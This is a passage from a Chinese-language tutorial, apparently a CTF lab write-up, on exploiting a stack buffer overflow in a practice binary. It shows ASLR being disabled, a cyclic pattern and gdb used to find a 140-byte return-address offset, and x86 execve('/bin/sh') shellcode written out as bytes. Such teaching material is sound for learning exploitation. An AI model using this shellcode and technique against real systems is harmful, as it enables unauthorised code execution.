 这几个指令。执行完后我们就关掉整个linux系统的ASLR保护。

接下来我们开始对目标程序进行分析。首先我们先来确定溢出点的位置，这里我推荐使用pattern.py这个脚本来进行计算。我们使用如下命令：

```
#!bash
python pattern.py create 150 
```

来生成一串测试用的150个字节的字符串：

```
#!bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

随后我们使用gdb ./level1调试程序。

```
#!bash
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
```

我们可以得到内存出错的地址为0x37654136。随后我们使用命令：

```
#!bash
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140
```

就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。

接下来我们需要一段shellcode，可以用msf生成，或者自己反编译一下。

```
#!c
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
```
